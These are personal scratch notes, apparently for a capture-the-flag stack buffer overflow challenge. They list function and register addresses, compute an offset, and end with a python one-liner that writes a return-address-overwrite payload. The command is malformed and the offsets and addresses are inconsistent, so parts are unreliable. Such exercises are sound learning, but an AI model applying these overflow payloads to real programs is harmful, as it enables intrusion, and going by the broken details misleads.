

gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge
